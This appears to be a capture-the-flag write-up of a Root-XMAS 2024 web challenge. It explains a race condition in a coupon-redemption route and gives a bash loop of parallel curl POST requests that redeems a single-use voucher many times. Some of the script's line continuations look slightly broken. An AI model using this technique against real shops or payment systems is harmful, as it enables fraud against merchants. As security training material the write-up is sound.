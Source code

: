 ```yaml
---
title: Root-XMAS 2024 Day 10 - Route-Mi Shop
feed: show
permalink: /RootXMAS_2024_10
date: 10-12-2024
summary: A use-once coupon. let's go shopping!
---
```

### summary

A web challenge with a race condition allowing to apply multiple times a discount voucher.
### recon

We have a nice shop, with a 50€ flag. We can create an account, and we get a 5€ welcome voucher. 
The coupon is showed on our account page, and we can click on a button to redeem it.
However there is no other way to add money to our account, so it's not enough to get the flag! 

![[rmxmas24d10_shop.png| a shop with cheap items]]

![[rmxmas24d10_coupon.png|nice a coupon!]]

We have the sources, so let's check them out!

```js
@app.route('/discount', methods=['POST'])
@login_required
def discount():
    user = User.query.get(session['user_id'])
    coupon_code = request.form.get('coupon_code')

    coupon = Coupon.query.filter_by(user_id=user.id, code=coupon_code).first()
```

Oh no, the coupon is tied to the account, we cannot create multiple ones to redeem the coupon to a single account! What do?
### solution

Let's investigate further our `/discount` route...

```js
@app.route('/discount', methods=['POST'])
	...
	balance = int(user.balance)
    if coupon:
        if not coupon.used:
            balance += 5.0
            user.balance = balance
            db.session.commit()

            anti_bruteforce(2)

            coupon.used = True
            user.can_use_coupon = False
            db.session.commit()
            flash("Your account has been credited with 5€ !")
			...

def anti_bruteforce(time):
	return sleep(time)
```

Wait, so the code credits our account, sleeps 2 seconds and *then* invalidate the coupon? smells like a race condition!

Now you have multiple solutions, you can brute-force with Burp/Zap/Caido . 
Strangely I could not manage to have 10 requests done in 2 seconds with Zap and Caido. Maybe there is an overhead or I missed some parameter.
So let's do it with a simple bash script:

```bash
#!/bin/env bash

cookie="eyJ1c2V..." # get from browser devtools
coupon_code="6283860a-..."

for i in {00..200}
do
    curl -k 'https://day10.challenges.xmas.root-me.org/discount' -X POST \
	-H 'Content-Type: application/x-www-form-urlencoded' \ 
	-H "Cookie: session=$cookie" 
	--data-raw "coupon_code=$coupon_code" & 
	# don't forget the '&' to paralellize!
done
```

Strangely, I had to test the script 2-3 times, as sometimes it only managed to redeem the coupon 5 or 7 times, when we needed 10 to buy the flag.
There must be a more efficient and reliable way to send multiple requests in parallel. Maybe with a script in python or Rust creating threads, the [Portswigger documentation on Race conditions](https://portswigger.net/web-security/race-conditions) also talks about warming up requests.

I also met someone who solved the challenge withe the advanced technique of... spamming the redeem button with his mouse! A  `Cookie Clicker` pro player I guess, and his technique worked very well. Sometimes the challs are that simple ^^'

Race conditions are real, most of the time not as obvious as this challenge, but it's often easy to find some in the wild!